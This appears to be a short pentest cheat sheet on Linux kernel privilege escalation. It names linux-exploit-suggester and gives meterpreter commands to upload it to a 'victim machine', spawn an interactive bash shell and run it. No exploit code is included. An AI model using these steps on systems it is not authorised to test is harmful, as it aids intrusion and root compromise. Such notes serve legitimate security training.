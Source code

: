 # Linux Kernel Exploits

## Explanation

- Kernel exploits on Linux will typically target vulnerabilities in the Linux Kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.

- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.

- Privilege escalation on Linux systems will typically follow the following methodology :
    - Identifying kernel vulnerabilities
    - Downloading, compiling and transferring kernel exploits onto the target system

## Technics

1. Download : https://github.com/The-Z-Labs/linux-exploit-suggester

2. Start meterpreter session in victim machine.

3. Upload LES tool in vicitim machine : 
```
meterpreter > cd /tmp
meterpreter > upload /home/kali/les.sh
```
4. Swith to new shell, and execute the bash script :
```
meterpreter > shell
/bin/bash -i

/tmp$ chmod +x les.sh
/tmp$ ./les.sh
```